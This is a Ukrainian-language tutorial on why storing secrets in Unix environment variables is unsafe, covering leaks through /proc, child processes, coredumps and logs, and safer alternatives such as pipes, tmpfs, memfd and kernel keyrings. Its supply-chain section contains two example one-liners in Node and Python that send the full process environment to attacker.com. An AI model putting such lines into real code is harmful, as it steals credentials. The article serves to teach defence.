


# Секрети в середовищі

<preknowlist>
- [Аргументи, оточення й що успадковує дитина](root:sys-unix/argv-and-environment) — структура початкового стека, масив envp та механіка передачі середовища при execve.
- [Системний виклик fork](root:sys-unix/fork-semantics) — клонування адресного простору й дублювання стану процесу.
- [Заміна образу процесу execve](root:sys-unix/exec-semantics) — створення нового адресного простору та ініціалізація початкової пам'яті.
- [/proc/$PID/ та стан процесів](root:sys-unix/procfs-process-reflection) — псевдофайлова система procfs і доступ до пам'яті та дескрипторів.
</preknowlist>

Веб-сервіс обробки платежів запускається всередині контейнера з обліковими даними бази даних у змінній оточення `DB_PASSWORD=SecretKey99!`. Під час генерації PDF-звіту бекенд виконує системну утиліту `wkhtmltopdf` через виклик `execve()`, передаючи їй за замовчуванням поточний масив `environ`. Якщо сторонній бінарник утиліти скомпрометовано через вразливість у парсері шрифтів або сторонній плагін, зловмисник отримує доступ до пароля бази даних навіть без прав суперкористувача root — просто зчитавши власний масив змінних або переглянувши пам'ять батьківського процесу через `/proc/$PID/environ`. Будь-який неперехоплений виняток у коді, що потрапляє до системи відстеження помилок Sentry чи загального журналу діагностики, миттєво публікує повний зріз змінних середовища у відкритому вигляді.

Змінні середовища (Environment Variables) створювалися в операційних системах Unix наприкінці 1970-х років як простий текстовий механізм передачі контексту сесії між процесами: шляхів пошуку виконуваних файлів `PATH`, локалі `LANG` або налаштувань термінала `TERM`. Перетворення цього механізму на сховище криптографічних ключів, токенів доступу та паролів стало наслідком широкого розповсюдження маніфесту Twelve-Factor App, де змінні оточення проголошувалися універсальним місцем зберігання будь-якої конфігурації. Проте фундаментальна модель безпеки ядра Linux не забезпечує для `environ` жодної ізоляції, шифрування чи гранулярного контролю доступу.

## 1. Парадигма 12-Factor App та ілюзія безпеки оточення

Механізм змінних середовища з'явився у сьомій редакції Unix (Unix V7, 1979 рік) разом із командною оболонкою Стівена Борна (Bourne Shell). Його призначенням було забезпечення глобального контексту виконання для ієрархії процесів користувача: визначення домашнього каталогу (`HOME`), типу дисплея або термінала (`TERM`) та системних шляхів до двійкових утиліт (`PATH`).

Через три десятиліття, на початку 2010-х років, інженери хмарної платформи Heroku опублікували маніфест «Twelve-Factor App», покликаний стандартизувати створення хмарних мікросервісів. Третій розділ маніфесту (Config) сформулював категоричне правило: «Зберігайте конфігурацію в середовищі». Логіка авторів спиралася на кілька очевидних практичних переваг:
- Повне відокремлення коду програми від конфігурації платформи;
- Запобігання випадковому додаванню паролів у репозиторії контролю версій Git;
- Уніфікований інтерфейс перевизначення параметрів під час запуску в контейнерах (`docker run -e`) або маніфестах Kubernetes Pod.

Проте автори маніфесту припустилися концептуальної помилки в моделі загроз: вони штучно об'єднали нечутливу оперативну конфігурацію запуску та високоелектропійні криптографічні секрети в єдиний механізм.

```
┌────────────────────────────────────────────────────────────────────────┐
│               Концептуальна плутанина 12-Factor App                     │
├──────────────────────────────────┬─────────────────────────────────────┤
│   Нечутлива конфігурація         │     Криптографічні секрети          │
│   (Operational Configuration)    │     (Credentials & Private Keys)    │
├──────────────────────────────────┼─────────────────────────────────────┤
│ • PORT=8080                      │ • DB_PASSWORD=TopSecret99           │
│ • LOG_LEVEL=debug                │ • AWS_SECRET_ACCESS_KEY=wJalr...    │
│ • TIMEOUT_MS=5000                │ • JWT_SIGNING_KEY=d8f1e0...c4       │
│ • WORKER_COUNT=4                 │ • TLS_PRIVATE_KEY=-----BEGIN...     │
├──────────────────────────────────┼─────────────────────────────────────┤
│ Властивості: публічні дані,      │ Властивості: висока ентропія,       │
│ безпечні для експорту в логи     │ вимагають захисту від читання,      │
│ та успадкування нащадками.       │ ізоляції від дочірніх процесів      │
│                                  │ та негайного очищення пам'яті.      │
└──────────────────────────────────┴─────────────────────────────────────┘
```

У стандарті POSIX середовище процесу реалізоване як глобальний покажчик `char **environ` на нуль-термінований масив покажчиків на рядки формату `KEY=VALUE`. З погляду ядра Linux цей масив розташовується у звичайній пам'яті процесу: або на верхівці початкового стека користувача при запуску через `execve()`, або в купі після динамічних викликів `setenv()` чи `putenv()`.

Оточення не має жодних атрибутів захисту:
1. **Відсутність гранулярного контролю доступу**: Будь-який суб'єкт, що має право переглядати середовище процесу (ядро, зневаджувач, інструменти моніторингу або сам процес), отримує доступ до всіх змінних одночасно. Неможливо позначити змінну `PORT` як відкриту, а `DB_PASSWORD` — як конфіденційну;
2. **Відкрите зберігання в пам'яті**: Рядки зберігаються у відкритому вигляді без шифрування та не захищені від копіювання у вторинні структури даних;
3. **Відсутність захисту від дампів**: Пам'ять середовища за замовчуванням включається у повний аварійний дамп пам'яті (coredump);
4. **Неконтрольоване розповсюдження**: Семантика системних викликів `fork()` та `execve()` передбачає автоматичне просування всього блоку середовища у всі дочірні процеси дерева виконання.

## 2. Анатомія витоків: вектори несанкціонованого доступу

Коли секрет потрапляє в масив `environ`, він стає вразливим до чотирьох незалежних векторів витоку в системі, показаних на схемі нижче.


*Вектори витоків конфіденційних даних зі змінних середовища: доступ через procfs, успадкування процесами-нащадками, аварійні дампи пам'яті та діагностичні логи.*

### Вектор 1: Псевдофайлова система `/proc/$PID/environ` та пастка unsetenv()

Псевдофайлова система procfs експортує стан кожного процесу у вигляді віртуальних файлів. Для кожного активного ідентифікатора процесу `PID` ядро створює файл `/proc/$PID/environ`, який містить початковий блок змінних середовища процесу, розділених нульовими байтами `\0`.

Усередині ядра Linux адреси початку та кінця початкового середовища зберігаються в дескрипторі пам'яті процесу `mm_struct` у полях `env_start` та `env_end`:

:::tabs
```c
/* Фрагмент структури mm_struct ядра Linux (include/linux/mm_types.h) */
struct mm_struct {
    unsigned long arg_start, arg_end;
    unsigned long env_start, env_end;
    /* ... */
};
```
:::code secrets-in-environment-d/cpp/vektor-1-psevdofailova.cpp
:::

Коли будь-який процес виконує системний виклик `read()` для файлу `/proc/$PID/environ`, ядро викликає внутрішню функцію `environ_read()` (`fs/proc/base.c`). Ядро перевіряє права доступу за допомогою функції `ptrace_may_access()` з прапорцем `PTRACE_MODE_READ_FSCREDS`.

Перевірка `ptrace_may_access()` завершується успішно за однієї з двох умов:
1. Викликаючий процес має адміністративний привілей `CAP_SYS_PTRACE` (або запущений від імені суперкористувача `root`);
2. Реальний, ефективний та збережений UID викликаючого процесу збігаються з реальним, ефективним та збереженим UID цільового процесу (той самий користувач у системі).

Це означає, що якщо на сервері або всередині одного контейнера під одним обліковим записом користувача (наприклад, `www-data`, `app` або `node`) працюють кілька процесів, будь-який із них може безперешкодно зчитати секрети всіх інших процесів:

:::tabs
:::code secrets-in-environment-d/c/vektor-1-psevdofailova.c
:::code secrets-in-environment-d/cpp/vektor-1-psevdofailova-2.cpp
:::

#### Пастка unsetenv() та динамічної купи

Поширеною помилкою серед розробників є переконання, що зчитавши секрет під час старту програми, його можна безпечно видалити за допомогою виклику `unsetenv("DB_PASSWORD")` або `delete process.env.DB_PASSWORD`.

Проте реалізація функцій керування оточенням у стандартній бібліотеці glibc працює виключно у просторі користувача. Під час виклику `setenv()` або `unsetenv()` glibc виділяє новий масив покажчиків у динамічній пам'яті (купі, Heap) і перенаправляє глобальний покажчик `environ` на цей новий буфер.

При цьому покажчики `mm_struct->env_start` та `mm_struct->env_end` усередині ядра Linux **залишаються незмінними**. Вони продовжують вказувати на початковий сегмент пам'яті на верхівці стека, куди ядро скопіювало рядки під час виклику `execve()`.

```
[Початковий стек процесу] ────────► [env_start ... env_end] (DB_PASSWORD=Secret!)
                                            ▲
                                            │ /proc/$PID/environ продовжує читати тут!
[Купа процесу після unsetenv] ──► environ = [PATH, LANG, NULL] (DB_PASSWORD видалено)
```

В результаті виникає фундаментальна розбіжність:
- Функція `getenv("DB_PASSWORD")` усередині процесу повертає `NULL`;
- Системний файл `/proc/$PID/environ` продовжує віддавати початковий рядок `DB_PASSWORD=SecretKey99!` усім локальним процесам того самого користувача.

Оновити межі ядра `env_start`/`env_end` може лише привілейований процес через спеціальний системний виклик `prctl(PR_SET_MM, PR_SET_MM_ENV_START, ...)` з наявністю адміністративного привілею `CAP_SYS_RESOURCE`. Для звичайних непривілейованих програм секрет залишається видимим у `/proc/$PID/environ` протягом усього часу життя процесу.

### Вектор 2: Логи налагодження, APM-агенти та діагностичні трекери

Змінні середовища сприймаються стандартними бібліотеками більшості мов програмування як глобальний словник без позначок конфіденційності (`process.env` у Node.js, `os.environ` у Python, `System.getenv()` у Java, `os.Environ()` у Go).

Коли в системі виникає неперехоплений виняток:
- Системи збору помилок (Sentry, Rollbar, Bugsnag) автоматично збирають контекст оточення процесу для полегшення відлагодження й передають його на зовнішні хмарні сервери;
- Агенти моніторингу продуктивності (Application Performance Monitoring, APM: Datadog, New Relic, Dynatrace) серіалізують змінні середовища під час ініціалізації процесу для виявлення версії релізу та метаданих хоста;
- Веб-фреймворки в режимі розробки або помилок конфігурації (наприклад, сторінка помилки Django Debug, Spring Boot `/actuator/env`, Express error handler) виводять `env` у відповідь HTTP клієнту;
- Оболонки Bash та скрипти автоматизації CI/CD із прапорцем діагностики `set -x` або командами `env` / `printenv` записують усі змінні у відкритий текстовий журнал збірки, доступний усім розробникам репозиторію.

### Вектор 3: Дампи аварійної пам'яті (Coredump) та файл підкачки (Swap)

Коли процес зазнає критичного збою внаслідок звернення до недійсної адреси пам'яті (`SIGSEGV`), помилки шини (`SIGBUS`) чи виклику `abort()` (`SIGABRT`), ядро Linux генерує дамп пам'яті (coredump).

Дамп містить повний знімок адресного простору процесу на момент падіння, зокрема верхівку початкового стека користувача, де розташовані рядки `environ`, або блоки динамічної пам'яті (купи), виділені функцією `setenv()`. Ядро записує цей дамп у файл `core.$PID` або передає системному демону `systemd-coredump` через механізм `/proc/sys/kernel/core_pattern`.

```
[Аварійне падіння процесу (SIGSEGV)]
              │
              ▼
[Ядро Linux: do_coredump()] ──► Записує сегменти пам'яті у /var/lib/systemd/coredump/
                                  │
                                  ├─► Стек: "DB_PASSWORD=SecretKey99!" (відкритий текст)
                                  ├─► Купа: сесійні токени
                                  └─► Доступ: розробники, аналізатори збоїв, бекапи
```

Якщо система не налаштована на використання шифрованих сховищ для coredump або адміністратор копіює дамп на локальний комп'ютер розробника для аналізу в зневаджувачі `gdb`, криптографічні ключі автоматично залишають периметр безпеки.

Крім того, якщо сторінки пам'яті зі змінними середовища не заблоковані від вивантаження на диск через системний виклик `mlock()`, під час нестачі оперативної пам'яті підсистема керування пам'яттю (Memory Management) ядра скидає ці сторінки у розділ або файл підкачки (`swap`). Навіть після завершення роботи процесу та вимкнення сервера секрети залишаються записаними на фізичному накопичувачі у відкритому вигляді.

### Вектор 4: Публічний доступ через командний рядок (argv)

Намагаючись уникнути використання змінних середовища, розробники нерідко припускаються ще гіршої помилки: передають паролі та токени безпосередньо в аргументах командного рядка під час виклику сторонніх утиліт (наприклад, `curl -u admin:SecretPassword https://api.internal/` або `mysql -u root -pSecretPassword`).

У моделі ядра Linux аргументи командного рядка процесу зберігаються в сегменті `[arg_start, arg_end]` і експортуються через псевдофайл `/proc/$PID/cmdline`. 

На відміну від `/proc/$PID/environ`, файл `/proc/$PID/cmdline` у стандартній конфігурації ядра Linux **доступний для читання взагалі будь-якому користувачеві в системі** без перевірок `ptrace_may_access()`. Будь-який непривілейований процес або команда `ps aux` може безперешкодно зчитувати повний список аргументів усіх працюючих у системі процесів.

## 3. Неконтрольоване успадкування: fork() та execve()

Одним із найнебезпечніших аспектів моделі процесів Unix є автоматичне просування змінних середовища вниз по дереву процесів.

Коли процес викликає `fork()`, ядро створює точну копію адресного простору за допомогою механізму Copy-On-Write. Дитячий процес отримує доступ до того самого масиву `environ`. 

На наступному кроці, коли процес викликає одну з функцій сімейства `exec()` (`execl`, `execv`, `execvp`, `system()`, `popen()` у C/C++, `subprocess.Popen(..., shell=False)` у Python або `child_process.exec()` у Node.js), стандартна бібліотека glibc неявно викликає системний виклик `execve()`, передаючи поточний глобальний покажчик `environ` третім аргументом:

:::tabs
```c
/* Стандартна бібліотека glibc викликає execve з глобальним environ */
#include <unistd.h>

extern char **environ;

int execvp(const char *file, char *const argv[]) {
    return execve(file, argv, environ); /* Усі секрети передаються нащадку! */
}
```
:::code secrets-in-environment-d/cpp/3-nekontrolovane.cpp
:::

### Сценарій витоку через сторонні утиліти

Уявімо типовий бекенд інтернет-магазину на Python або Node.js, що зберігає `STRIPE_API_SECRET_KEY` та `DATABASE_URL` у змінних середовища. Для стиснення аватарів користувачів застосунок викликає утиліту `convert` (ImageMagick) або `cwebp`:

```python
# Небезпечний виклик сторонньої утиліти в Python
import subprocess

# Батьківський процес містить у середовищі:
# AWS_SECRET_ACCESS_KEY, DB_PASSWORD, JWT_PRIVATE_KEY
subprocess.run(["convert", "user_input.jpg", "-resize", "128x128", "thumb.jpg"])
```

У цей момент утиліта `convert` отримує повну копію всіх секретів основного веб-сервера. Якщо утиліта ImageMagick містить вразливість переповнення буфера або виконання довільного коду (наприклад, класична серія вразливостей ImageTragick), атакуючий через спеціально сформований файл `user_input.jpg` отримує виконання коду в контексті `convert` і негайно зчитує `AWS_SECRET_ACCESS_KEY` зі свого власного масиву `environ`.

Утиліті для обробки зображень потрібні лише файлові шляхи вхідного та вихідного зображень, але через автоматичне успадкування POSIX вона отримує найцінніші криптографічні ключі інфраструктури.

### Атаки на ланцюг постачання (Supply Chain Attacks)

У сучасній екосистемі розробки (Node.js/npm, Python/PyPI, Rust/crates.io) застосунки використовують тисячі сторонніх бібліотек. Зловмисний або скомпрометований пакунок у глибині дерева залежностей виконується в тому самому адресному просторі процесу.

Для викрадення секретів шкідливому коду достатньо одного рядка:
- У Node.js: `https.request('https://attacker.com', { headers: { 'x-leak': JSON.stringify(process.env) } })`;
- У Python: `urllib.request.urlopen('https://attacker.com/?env=' + str(os.environ))`.

Оскільки змінні середовища є глобальними для процесу, жоден модуль не може бути обмежений у доступі до них на рівні інтерпретатора.

## 4. SetUID-програми, допоміжний вектор AT_SECURE та лічильник безпеки

Творці ядра Linux та бібліотеки glibc давно усвідомили катастрофічні наслідки неконтрольованого середовища для привілейованих процесів. Якщо звичайний користувач викликає SetUID-бінарник (наприклад, `/usr/bin/sudo` або `/usr/bin/passwd`), який виконується з правами `root` (`eUID = 0`), наявність контрольованих користувачем змінних середовища дозволяла б миттєво захопити контроль над системою.

Зокрема, змінна `LD_PRELOAD` змушує динамічний завантажувач ELF (`ld.so`) завантажити вказану спільну бібліотеку до виконання коду програми. Якби `ld.so` довіряв `LD_PRELOAD` у SetUID-програмі, зловмисник міг би перехопити функцію `main()` і виконати довільний код із привілеями суперкористувача.

### Механізм AT_SECURE у ядрі Linux

Для запобігання цій атаці ядро Linux під час виконання системного виклику `execve()` перевіряє, чи змінюються привілеї процесу. У файлі `fs/binfmt_elf.c` ядро оцінює зміну ідентифікаторів користувача та прапорців capabilities:

:::tabs
:::code secrets-in-environment-d/c/binfmt_elf.c
:::code secrets-in-environment-d/cpp/mekhanizm-at-secure-u.cpp
:::

Якщо виявлено підвищення привілеїв, ядро передає динамічному лінкеру у складі Допоміжного вектора (Auxiliary Vector, `auxv`) спеціальний запис з типом `AT_SECURE`:

```
Elf64_auxv_t {
    a_type = AT_SECURE,  /* Значення 23 */
    a_val  = 1           /* Увімкнено режим підвищеної безпеки */
}
```

### Реакція glibc та функція secure_getenv()

Коли динамічний завантажувач `ld.so` виявляє `AT_SECURE = 1`, він активує режим безпечного виконання:
1. **Видалення небезпечних змінних**: Динамічний лінкер повністю ігнорує або видаляє зі списку понад 30 небезпечних змінних середовища: `LD_PRELOAD`, `LD_LIBRARY_PATH`, `LD_AUDIT`, `LD_DEBUG`, `GCONV_PATH`, `HOSTALIASES`, `MALLOC_CHECK_` тощо;
2. **Активація secure_getenv()**: Бібліотека glibc надає функцію `secure_getenv()` (у системах BSD та macOS її аналогом є перевірка `issetugid()`):

:::tabs
:::code secrets-in-environment-d/c/reaktsiia-glibc-ta.c
:::code secrets-in-environment-d/cpp/reaktsiia-glibc-ta.cpp
:::

### Чому secure_getenv() не рятує користувацькі сервіси

Механізм `AT_SECURE` був спроектований виключно для захисту привілейованих двійкових файлів від атак непривілейованих користувачів.

Звичайний бекенд або мікросервіс запускається непривілейованим користувачем (`UID 1000`) і не має бітів SetUID. Тому для нього `AT_SECURE = 0`. Функція `secure_getenv()` поводиться як звичайний `getenv()`, динамічний лінкер не фільтрує жодних змінних, а ядро продовжує експортувати всі секрети через procfs і копіювати їх у всі дочірні процеси.

Покладатися на вбудовані механізми ядра для захисту паролів у середовищі неможливо — застосункам потрібні спеціалізовані архітектурні моделі передачі конфіденційних даних.

## 5. Архітектура безпечної передачі секретів у Linux

Для усунення фундаментальних вад змінних середовища сучасні Unix- та Linux-системи використовують чотири альтернативні моделі ізоляції секретів, зведені на архітектурній схемі.


*Архітектурні альтернативи передачі секретів у Linux: анонімні канали (pipes), монтування tmpfs, анонімні дескриптори memfd_create з пломбуванням та зв'язки ключів ядра (Kernel Keyrings).*

### Модель 1: Передача через анонімні канали (Pipes) та виділені файлові дескриптори

Замість того, щоб укладати секрет у текстовий рядок `envp`, батьківський процес (наприклад, супервізор або ініціалізатор) створює односпрямований анонімний канал зв'язку через системний виклик `pipe2()` із прапорцем `O_CLOEXEC`.

Батьківський процес записує секрет у канал, налаштовує дескриптор читання на фіксований номер (наприклад, дескриптор `3`), знімає з нього прапорець `O_CLOEXEC` і виконує `execve()` з **порожнім або очищеним середовищем**. Дочірній процес зчитує секрет із дескриптора `3`, після чого негайно закриває його.

Переваги моделі:
- Секрет ніколи не з'являється у `/proc/$PID/environ` або `/proc/$PID/cmdline`;
- Інші дочірні процеси, запущені паралельно чи пізніше, не отримають дескриптор, оскільки прапорець `O_CLOEXEC` або явне закриття дескриптора унеможливлює витік;
- Дані існують у буфері ядра лише на мить читання.

Нижче наведено робочий приклад реалізації безпечної передачі секрету через анонімний пайп:

:::tabs
:::code secrets-in-environment-d/c/model-1-peredacha-cherez.c
:::code secrets-in-environment-d/cpp/model-1-peredacha-cherez.cpp
:::

### Модель 2: Тимчасові захищені файлові системи (tmpfs) та Secret Mounts

У цій моделі секрети розміщуються не у змінних середовища, а у вигляді файлів на віртуальній файловій системі в оперативній пам'яті (`tmpfs` або `ramfs`).

Сучасні оркестратори та системні менеджери підтримують цей підхід на рівні стандартних інтерфейсів:
1. **Kubernetes Secret Volumes**: Об'єкти Kubernetes Secrets монтуються у файлову систему контейнера як том типу `tmpfs` (наприклад, у каталог `/var/run/secrets/`). Файли мають суворі права доступу (`0400` або `0600`).
2. **systemd Credentials**: Починаючи з версії systemd 250, сервіси можуть використовувати директиви `SetCredential=` або `LoadCredential=`. Демон systemd автоматично створює захищений тимчасовий каталог `/run/credentials/<service-name>/`, монтує туди `tmpfs` і відкриває доступ виключно користувачу відповідного сервісу. Шлях до каталогу передається через змінну `$CREDENTIALS_DIRECTORY`.

Застосунок відкриває файл секрету, зчитує його вміст у внутрішній буфер, блокує буфер у пам'яті через `mlock()` і негайно занулює пам'ять після використання за допомогою `explicit_bzero()`.

### Модель 3: Анонімні об'єкти пам'яті memfd_create з пломбуванням

Для передачі великих криптографічних ключів, сертифікатів TLS або бінарних конфігурацій між незалежними процесами без запису на диск Linux надає системний виклик `memfd_create()`.

`memfd_create()` створює анонімний файл у пам'яті ядра (`shmem`), який повертається процесу у вигляді звичайного файлового дескриптора. Головною особливістю `memfd` є підтримка механізму пломбування (File Sealing):

:::tabs
:::code secrets-in-environment-d/c/model-3-anonimni-obiekty.c
:::code secrets-in-environment-d/cpp/model-3-anonimni-obiekty.cpp
:::

Дескриптор `memfd` може бути переданий будь-якому іншому локальному процесу через сокет домену Unix (Unix Domain Socket) за допомогою керуючого повідомлення `SCM_RIGHTS`. Процес-отримувач отримує доступ до незмінного буфера в оперативній пам'яті без створення записів у файловій системі.

### Модель 4: Зв'язки ключів ядра Linux (Kernel Keyrings)

Найбільш захищеним системним сховищем секретів у Linux є підсистема зв'язок ключів ядра (Linux Kernel Keyrings, системні виклики `add_key()`, `request_key()`, `keyctl()`).

Ключі та секрети зберігаються у внутрішній захищеній пам'яті ядра, недосяжній для читання через `/proc/$PID/mem`, `/proc/$PID/environ` або coredump файли.

Ядро організовує ключі в ієрархічні зв'язки (Keyrings):
- **Thread Keyring (`KEY_SPEC_THREAD_KEYRING`)**: Прив'язана до конкретного потоку виконання;
- **Process Keyring (`KEY_SPEC_PROCESS_KEYRING`)**: Спільна для всіх потоків процесу, знищується при `execve()` (якщо не налаштовано збереження);
- **Session Keyring (`KEY_SPEC_SESSION_KEYRING`)**: Прив'язана до поточної сесії входу користувача;
- **User Keyring (`KEY_SPEC_USER_KEYRING`)**: Постійна зв'язка для конкретного `UID`.

Кожен ключ має бітову маску дозволів POSIX (View, Read, Write, Search, Link, Setattr) окремо для власника, групи та інших користувачів, а також таймер самознищення (Time-To-Live, TTL).

Робота з ключами через системні виклики ядра:

:::tabs
:::code secrets-in-environment-d/c/model-4-zviazky-kliuchiv.c
:::code secrets-in-environment-d/cpp/model-4-zviazky-kliuchiv.cpp
:::

## 6. Безпечне поводження з секретами в пам'яті процесу

Яку б модель отримання секрету не обрав застосунок (пайп, файл на `tmpfs` чи Kernel Keyring), у мить обробки секрет неминуче опиняється у віртуальному адресному просторі процесу користувача.

Для запобігання вторинним витокам через підсистеми ядра необхідно застосовувати три обов'язкові заходи захисту пам'яті:

1. **Блокування сторінок пам'яті від вивантаження у swap (`mlock` / `mlockall`)**: Запобігає запису оперативної пам'яті на диск при браку пам'яті;
2. **Виключення пам'яті з аварійних дампів (`madvise` з прапорцем `MADV_DONTDUMP`)**: Повідомляє ядру, що вказаний діапазон адрес не повинен включатися у файл coredump при аварійному завершенні;
3. **Гарантоване занулення буферів пам'яті (`explicit_bzero` або `sodium_memzero`)**: Звичайний виклик `memset(ptr, 0, len)` часто оптимізується компілятором (Dead Store Elimination), якщо після нього змінна не використовується. Функція `explicit_bzero()` гарантує, що компілятор виконає фізичне занулення байтів.

Нижче наведено повний зразок захищеного буфера пам'яті для зберігання секретів у просторі користувача:

:::tabs
:::code secrets-in-environment-d/c/6-bezpechne-povodzhennia-z.c
:::code secrets-in-environment-d/cpp/6-bezpechne-povodzhennia-z.cpp
:::

## 7. Порівняльна характеристика моделей зберігання секретів

У таблиці нижче зіставлено фундаментальні властивості розглянутих механізмів передачі та зберігання секретів.

| Критерій оцінки | Змінні середовища (`environ`) | Анонімні пайпи / FD (`pipe2`) | Файли `tmpfs` / Credentials | Дескриптори `memfd_create` | Linux Kernel Keyrings |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Стійкість до читання через `/proc`** | ❌ Немає (доступно тому ж UID) | ✅ Висока (немає у `/proc/$PID/environ`) | ✅ Висока (захищено правами `0600`) | ✅ Висока (анонімний дескриптор) | ✅ Абсолютна (зберігається в ядрі) |
| **Стійкість до аварійного coredump** | ❌ Немає (скидається початковий стек) | ⚠️ Потрібен `MADV_DONTDUMP` для буфера | ⚠️ Потрібен `MADV_DONTDUMP` для буфера | ⚠️ Потрібен `MADV_DONTDUMP` для буфера | ✅ Абсолютна (відсутній у користувацькій пам'яті) |
| **Успадкування при `fork()` / `execve()`** | ❌ Автоматичне передавання всім нащадкам | ✅ Повний контроль через `O_CLOEXEC` | ✅ Ізоляція правами доступу та namespaces | ✅ Передається лише через сокет/FD | ✅ Кероване (налаштування Keyring) |
| **Стійкість до витоку в APM / логи** | ❌ Вкрай низька (дампиться за замовчуванням) | ✅ Висока (потрібне пряме читання FD) | ✅ Висока (не потрапляє у глобальні змінні) | ✅ Висока (ізольований буфер) | ✅ Висока (доступ лише через syscall) |
| **Підтримка автознищення за часом (TTL)**| ❌ Відсутня | ❌ Відсутня | ❌ Потрібен зовнішній демон | ❌ Відсутня | ✅ Вбудована в ядро (`SET_TIMEOUT`) |
| **Складність інтеграції в ПЗ** | 🟢 Мінімальна (наявна скрізь) | 🟡 Середня (обробка дескрипторів) | 🟢 Низька (читання звичайного файлу) | 🔴 Висока (робота з `SCM_RIGHTS`) | 🟡 Середня (системні виклики `keyctl`) |

> 🔧 **Навіщо це.**
> Змінні середовища залишаються зручним стандартом для загальної конфігурації платформи, але їх використання для збереження паролів, токенів API та приватних ключів порушує базові принципи ешелонованого захисту Unix. Перехід на використання передачі секретів через виділені файлові дескриптори, захищені точки монтування `tmpfs` у контейнерах або підсистему Kernel Keyrings повністю ліквідує вектори витоку через `/proc`, журналювання помилок та неконтрольоване успадкування дочірніми процесами.
